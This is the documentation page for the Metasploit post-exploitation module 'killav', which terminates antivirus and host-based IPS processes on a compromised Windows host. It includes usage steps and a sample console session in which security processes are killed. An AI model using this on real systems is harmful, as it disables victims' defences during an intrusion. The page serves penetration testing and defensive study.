 ## Vulnerable Application

This module attempts to locate and terminate any processes that are identified
as being Antivirus or Host-based IPS related.

## Verification Steps

1. Start msfconsole
2. Get a session
3. Do: `use post/windows/manage/killav`
4. Do: `set SESSION <session id>`
5. Do: `run`

## Options


## Scenarios

### Windows 7 SP1 (x64)

```
msf > use post/windows/manage/killav
msf post(windows/manage/killav) > set session 1
session => 1
msf post(windows/manage/killav) > run

[*] Attempting to terminate 'antivirus.exe' (PID: 5340) ...
[+] antivirus.exe (PID: 5340) terminated.
[*] Attempting to terminate 'regedit.exe' (PID: 2296) ...
[+] regedit.exe (PID: 2296) terminated.
[+] A total of 2 process(es) were discovered, 2 were terminated.
[*] Post module execution completed
msf post(windows/manage/killav) > 
```
